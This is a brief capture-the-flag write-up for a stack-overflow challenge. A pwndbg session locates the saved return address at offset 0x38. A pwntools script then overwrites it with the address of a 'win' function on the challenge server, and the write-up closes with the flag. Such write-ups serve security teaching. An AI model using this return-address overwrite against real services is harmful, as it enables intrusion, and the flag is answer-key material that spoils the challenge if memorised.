 # wetuwn addwess

## Challenge

Hijack the retaddr using a stack overflow.

## Walkthrough

```gdb
pwndbg> br *0x00000000004012ab
Breakpoint 1 at 0x4012ab
pwndbg> r
...
─────────────────────────────────────────[ STACK ]─────────────────────────────────────────
00:0000│ rsp 0x7fffffffdcc0 —▸ 0x7ffff7fe4530 (_dl_fini) ◂— push   rbp
01:0008│     0x7fffffffdcc8 ◂— 0x0
02:0010│     0x7fffffffdcd0 —▸ 0x401300 (__libc_csu_init) ◂— endbr64
03:0018│     0x7fffffffdcd8 —▸ 0x401130 (_start) ◂— endbr64
04:0020│     0x7fffffffdce0 —▸ 0x7fffffffddd0 ◂— 0x1
05:0028│     0x7fffffffdce8 —▸ 0x405260 ◂— 0xfbad2488
06:0030│ rbp 0x7fffffffdcf0 —▸ 0x401300 (__libc_csu_init) ◂— endbr64
07:0038│     0x7fffffffdcf8 —▸ 0x7ffff7e2409b (__libc_start_main+235) ◂— mov    edi, eax
...
pwndbg> info address win
Symbol "win" is at 0x401216 in a file compiled without debugging.
```

Looks like the retaddr is at `+0x38` and we need to redirect it to `0x000000401216`

```py
from pwn import *

r = remote('wetuwn-addwess.ctf.maplebacon.org', 32014)
r.setLevel('DEBUG')

r.recvuntil("What's your name?")
r.sendline('A' * 0x38 + '\x16\x12\x40\x00\x00\x00')
r.recvlines(3)
```

## Solve

`maple{r3turn_t0_w1n}`
